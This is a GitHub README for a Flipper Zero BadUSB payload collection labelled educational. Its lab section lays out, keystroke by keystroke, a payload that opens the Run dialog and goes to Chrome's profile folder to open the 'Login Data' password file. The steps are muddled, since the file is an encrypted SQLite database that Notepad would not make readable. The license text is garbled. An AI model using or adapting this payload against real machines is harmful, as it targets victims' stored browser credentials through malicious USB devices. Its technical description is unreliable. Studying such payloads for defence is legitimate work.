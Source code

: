 <h1 align="center"><strong>BAD-FLIPP3R-CHROME-SPYs</strong></h1>

<html>
  <body>
    <div align="center">
      <img src="https://i.imgur.com/jhru5s5.jpeg" width="369" height="249">
    </div>
  </body>
</html>


<p id="description"><strong>BadFLIPP3R Collection</strong> is an advanced payload designed for use with the Flipper Zero device. This project is intended exclusively for educational purposes and to deepen understanding of advanced USB-based attacks. The primary goal of <strong>BadFLIPP3R</strong> is to provide cybersecurity professionals, researchers, and enthusiasts with a tool to study, practice, and enhance their knowledge of various types of USB-based exploits.</p>

...................................  
<h2>🧐 Features</h2>

Here're some of the project's best features:

*   Educational Focus: All payloads are crafted to serve as learning tools demonstrating different techniques and methods used in USB attacks.
*   Advanced Payloads: Explore complex payloads designed to mimic real-world attack scenarios.
*   Flipper Zero Compatible: Optimized for seamless integration and execution on the Flipper Zero device.
*   Comprehensive Documentation: Detailed guides and explanations accompany each payload aiding in the educational process.

<h2>🛠️ Installation Steps:</h2>

<p>1. Clone the repository:</p>

```
git clone https://github.com/Bulli77/BadFLIPP3R.git
```

<p>2. Transfer the desired payloads to your Flipper Zero device.</p>

<p>3. Follow the usage instructions provided in the documentation to execute the payloads.</p>

<h2>🍰 Contribution Guidelines:</h2>

Contributions are welcome! If you have any payloads improvements or ideas to enhance this project please feel free to open an issue or submit a pull request.

 
  
...................................
<h2>💻 Lab </h2>

Payload: Extracting Chrome Passwords
This payload script showcases a sequence of automated commands to open Google Chrome, navigate to the profile directory, and attempt to read the "Login Data" file where Chrome stores passwords.


1. **Launching Google Chrome:**
   - `GUI r`: Opens the Run dialog.
   - `STRING chrome.exe`: Types `chrome.exe` to run Google Chrome.
   - `DELAY 1000`: Waits 1 second for Chrome to launch.

2. **Navigating to the Chrome Profile Directory:**
   - `GUI r`: Opens the Run dialog again.
   - `STRING %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default`: Types the path to Chrome's default profile directory.
   - `ENTER`: Opens the specified directory.
   - `DELAY 1000`: Waits 1 second for the directory to open.

3. **Opening the Directory in Explorer:**
   - `STRING explorer`: Opens the Windows Explorer to view the directory.
   - `ENTER`: Confirms the command.
   - `DELAY 1000`: Waits 1 second for the Explorer window to open.

4. **Navigating to the Login Data File:**
   - `STRING %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data`: Types the full path to the Login Data file.
   - `ENTER`: Navigates to the specified file.
   - `DELAY 1000`: Waits 1 second for the file to be accessed.

5. **Reading the Login Data File:**
   - `STRING notepad %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data`: Opens the Login Data file in Notepad.
   - `ENTER`: Confirms the command.
   - `DELAY 1000`: Waits 1 second for Notepad to open the file.


...................................
<h2>🛡️ License:</h2>

This project is licensed under the his project is licensed under the MIT License. See the LICENSE file for details.

...................................

<h2>👍Like my work?👨‍💻</h2>

The <strong>BadFLIPP3R</strong> project is intended solely for educational purposes. It is designed to help security professionals and enthusiasts understand identify and mitigate potential security vulnerabilities in a controlled environment. Any use of <strong>BadFLIPP3R</strong> outside of these educational and research purposes is strictly prohibited. Unauthorized use of this tool on any systems or networks without explicit permission from the owner is illegal and unethical. Such actions may result in severe legal consequences. The developers and contributors of <strong>BadFLIPP3R</strong>  do not condone or support any form of unauthorized or malicious use of this tool. Users must only deploy <strong>BadFLIPP3R</strong>  within their own systems or environments where they have explicit authorization to conduct security testing. Performing any tests or executing payloads on third-party systems networks or devices without prior consent is a violation of ethical guidelines and legal standards. By using this project you agree to adhere to these terms and use <strong>BadFLIPP3R</strong>  responsibly and ethically. Failure to comply with these conditions may lead to serious repercussions including but not limited to legal action academic penalties and professional disciplinary measures.
